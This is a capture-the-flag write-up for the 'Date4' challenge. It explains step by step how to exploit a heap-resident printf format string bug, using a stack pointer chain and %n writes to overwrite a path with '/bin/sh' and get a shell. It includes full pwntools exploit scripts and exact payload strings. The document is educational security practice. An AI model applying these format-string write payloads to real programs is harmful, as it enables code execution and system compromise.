

# Date4

```
Description
Format strings are easy to exploit right?

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:


So only nx is enabled and its an 64 bit binary. Lets decompile it in ghidra:


We can see we have again a format string vuln, but now its not on the stack but on the heap. We can also see that `date_path` is now in the `.data` section.
So now we cant write `/bin/sh` with the format string to `date_path` as we did in `date2`. We cant find our offset, but the printf is still printing values from the stack.

So what we need to do is similar to [this](https://anee.me/format-string-exploits-when-buffer-is-not-on-the-stack-f7c83e1a6781). So lets find an address pointing to another address on the stack, 
with that we first write the `date_path` address to the first stack address, then with the second write we write `/bin/sh`. 
We set a breakpoint after printf and check the stack:


So we can see the first value is pointing to an other address on the stack. The blue square is pointing to our heap. We can find the offset of the first value at the 6th position with gdb(run the program in gdb with the breakpoint and send `%6$p` and check the stack) 
As we can read [here](https://cor.team/posts/Zh3r0-CTF-V2---All-Pwnable-Writeups):

```
First, when something of the %offset$specifier notation is encountered, the value is cached in args_value in printf_positional so it will not reference the stack upon the next encounter.
```

So we cant use positional arguments `%offset$specifier` at the first write because of the caching issue. What we can do is like sending `x` offset times till we are at the position we want to be.
So lets create our script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'critical'

io = start()

payload = b"%x" * 4
payload += b"%30x"
payload += b"%n"

write("payload", payload)

io.interactive()
```

We run this and it will create a payload file in the same directory, lets use it in gdb. As we can see:

```py
payload = b"%x" * 4 # means %x %x %x %x equals %4$specifier
payload += b"%30x" # 5th offset
payload += b"%n" # here we are at the 6th offset as we want
```

So lets run in gdb(`r < payload`), this time we set a breakpoint before and after printf and check the stack
We hit our first breakpoint, lets check the stack:



Nothing changed, lets continue:


We see its changed to 0x35. So lets calculate the amount of bytes we need to write. `date_path` is at `0x404080`. Pie is disabled so no worries for changes. 
We can see that if we write 30 bytes, we get 0x35. So lets calculate in python:


We substract 30 from 53 because thats the padding we used. Then we substract the value from the address we want to write. So lets change our script:

```py
payload = b"%x" * 4
payload += b"%4210793x"
payload += b"%n"
```

Lets run it and use it in gdb again(same breakpoints)
Continue after the first breakpoint an check the stack:


So we succesfully wrote the `date_path` address to that location, so now with our second write we can use positional arguments.
So what we want to write now is `/bin/sh` to `date_path`. But in `date_path` there is already `/usr/bin/` so we can just overwrite `date` with `/sh`(`/usr/bin//sh` doesnt matter and will run as normally, try locally in your terminal). Lets check the address we want to overwrite.
We can set values in gdb:


We can find the offset of the second address that we changed manually. Its the `38th` position.
So lets change our payload again. We want to write `0x0068732f` to `0x404089`. We also need to change our first payload because we wrote `0x404080`(just add `9`). 

So if we change it to:

```py
payload = b"%x" * 4
payload += b"%4210802x"
payload += b"%n"
payload += b"%30x%38$n"
```

And run it again and check what we wrote:


So we can calculate it again, like we did before:


So changed `30` to `2634406` and run again:


And we can see we succesfully wrote what we want.
If we run it outside of gdb, we can see it wont work and differs slightly:


So lets debug with our script in gdb:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
b *main+134
b *main+139
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'critical'

io = start()

payload = b"%x" * 4
payload += b"%4210802x"
payload += b"%n"
payload += b"%2634406x%38$n"

io.sendlineafter(b'date?\n', payload)

io.interactive()
```

`python3 exploit.py GDB`

It will open an extra tab with gdb. Lets continue 2 times till we hit the second breakpoint, and check the stack:


We can see here, its not the address we want. Its `0xa` at the end and we want `0x9` so 1 number too much. So we substract 1 from `4210802` in our script, and run it again:


We can see everything is correct now, so lets continue:


And we got our shell locally, lets try to run remotely:


and we got our shell and flag. Really cool chall, learnt some new stuff!
